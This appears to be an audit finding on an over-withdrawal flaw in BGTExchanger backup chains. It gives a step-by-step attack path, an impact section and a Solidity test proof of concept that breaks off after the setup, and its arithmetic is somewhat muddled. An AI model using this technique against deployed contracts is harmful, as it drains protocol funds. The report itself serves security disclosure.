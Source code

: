 ### External Pre-conditions

none

### Attack Path

1. **Admin sets up a linear backup chain of three exchangers: C → B → A**
2. **User has a total of 150 tokens owed across the three exchangers (50 in each)**
3. **User withdraws 70 tokens via exchanger B (50 from B + 20 from A via B's backup)**
4. **User withdraws 80 tokens via exchanger C (50 from C + 30 from what C thinks is still owed by B)**
5. **Admin deploys a new exchanger D that directly points to A as backup**
6. **User queries getOwed() in exchanger D and discovers they can still withdraw 50 tokens from A (the full amount), even though they've already withdrawn 20 tokens from A through B**
7. **User withdraws the additional 50 tokens, resulting in a total withdrawal of 200 tokens - 50 more than they were entitled to**

### Impact

The protocol could suffer a significant loss of tokens due to users being able to withdraw more tokens than they're entitled to. The magnitude depends on the amount of tokens owed across the backup chain, but could potentially be up to 100% of tokens owed through specific paths in the backup system.
The vulnerability is particularly concerning because it becomes more severe as the protocol grows and adds more exchangers or migrates between exchanger implementations. This creates complex backup chains where the accounting issues compound.

### PoC

Add this in BGTExchanger.t.sol
```solidity
 function testWithdrawnAccountingLinearChain() public {
        // Start as owner to set up exchangers
        vm.startPrank(owner);

        // Create three exchangers to form a linear chain
        ExposedBGTExchanger exchangerA = new ExposedBGTExchanger(address(ibgt));
        ExposedBGTExchanger exchangerB = new ExposedBGTExchanger(address(ibgt));
        ExposedBGTExchanger exchangerC = new ExposedBGTExchanger(address(ibgt));

        // Setup owed amounts in each exchanger
        // Alice is owed 50 in A, 50 in B, and 50 in C = 150 total
        exchangerA.setOwed(alice, 50 ether);
        exchangerB.setOwed(alice, 50 ether);
        exchangerC.setOwed(alice, 50 ether);

        // Create LINEAR backup chain: C → B → A (no skips)
        exchangerB.setBackup(address(exchangerA));
        exchangerC.setBackup(address(exchangerB));

        // Fund each exchanger to allow withdrawals
        deal(address(ibgt), address(exchangerA), 1000 ether);
        deal(address(ibgt), address(exchangerB), 1000 ether);
        deal(address(ibgt), address(exchangerC), 1000 ether);

        exchangerA.setBgtBalance(1000 ether);
        exchangerB.setBgtBalance(1000 ether);
        exchangerC.setBgtBalance(1000 ether);

        vm.stopPrank();

        // STEP 1: First, let's verify the total amount Alice is owed through C
        // Expected: 50 (from C) + 50 (from B) + 50 (from A) = 150 ether
        uint256 initialOwed = exchangerC.getOwed(alice);
```